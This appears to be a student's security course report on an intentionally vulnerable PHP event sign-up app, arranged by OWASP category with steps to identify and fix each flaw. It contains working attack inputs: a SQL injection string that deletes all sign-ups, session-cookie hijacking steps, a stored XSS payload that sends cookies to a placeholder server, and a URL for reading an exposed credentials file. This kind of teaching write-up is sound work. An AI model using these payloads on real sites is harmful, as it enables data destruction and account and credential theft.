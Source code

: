 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with the code, but I will only mention the most relevant problems and the most important fixes (as I see them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1

### How to identify 
Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ```' OR '1'='1```. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
The “mysqli_real_escape_string” function can be used in “delete.php” on the $ticket variable, to prevent the SQL-injection (as used in “done.php” on other variables). But a simple input validation (fixed length + lowcase alfanum only) would also fix the problem in this case.
## A2
a) Guessable fixed admin credentials (admin/password), which are stored in the source code (login.php) with no encryption.<br> 
b) The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection. You can see them with OWASP ZAP.

### How to identify (broken session management)
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on):

1. Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
2. Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
3. Re-enter the Admin page (do not only reload), and you’re in without entering credentials!

Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.

### How to fix
Use SSL for the website (see the GitHub Readme)! 

Besides that, the session could be re-generated and the old one destroyed with some intervals. And the session could be made to timeout sooner.  The “secure” and “path” parameters could be used for the session cookie (+ httponly to defend against A3).<br>
The admin credentials could be stored in the database with the password salted + hashed. The admin should be able to change (at least) the password. 

## A3
There are both Stored and Reflected XSS vulnerabilities. The Stored XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
How (stored XSS): Enter this code into the address field on the SignUp page;
```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```
When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”. But you can also test with code like this, in any of the fields on the SignUp page; 
<body onload=alert('hello')>
Fix:  Html codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6
Credit card numbers are sent without SSL in cleartext with POST, and stored unencrypted in the database. And, the session cookie and the admin credentials can be stolen since SSL is not in use (see A2).

How: Capture the (imaginary) credit card numbers using OWASP ZAP.

Fix: Again, use SSL! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard
Regarding the session cookie and admin credentials, see the A2-fix.
## A7
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
How: Modify “yourserver” in this link to match your installation;  http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
Fix: 

